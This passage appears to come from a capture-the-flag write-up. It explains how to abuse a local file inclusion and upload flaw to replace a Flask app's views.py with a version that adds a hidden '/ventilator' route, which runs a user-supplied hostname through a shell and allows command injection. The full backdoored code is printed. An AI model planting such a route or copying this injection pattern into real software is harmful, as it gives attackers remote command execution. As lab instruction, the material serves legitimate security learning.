 {{< lead >}}
-  But how can we leverage the LFI once we have access to the source code?
{{< /lead >}}
 
The `views.py` file contains the application routing definition:

> App Routing means mapping the URLs to a specific function that will handle the logic for that URL. 

We can customize this file and then upload it to the target in order to replace the original one. Our costome code will define a new route in the file that will give us a reverse shell on the web application.

There are different ways of achieving the goal. In this example we define a `/ventilator` route and a function that performs a lookup on a hostname supplied by the user. Since the hostname is simply appended to the command and executed on a subshell with `shell=True`, it will be possible to stack another command using `;` in the GET parameter to inject additional commands.

This following is the customized `views.py` file we'll upload:

````python
import os
import subprocess

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app

@app.route('/ventilator')  # custom reverse shell function
def reverse():
    
    x = request.args.get('hostname')
    cmd = 'nslookup ' + x

    return subprocess.check_output(cmd, shell=True)

@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')

@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

````

In order to abuse the LFI vulnerability we have to upload our custom `views.py` file , but intercepting the request to edit the file name.
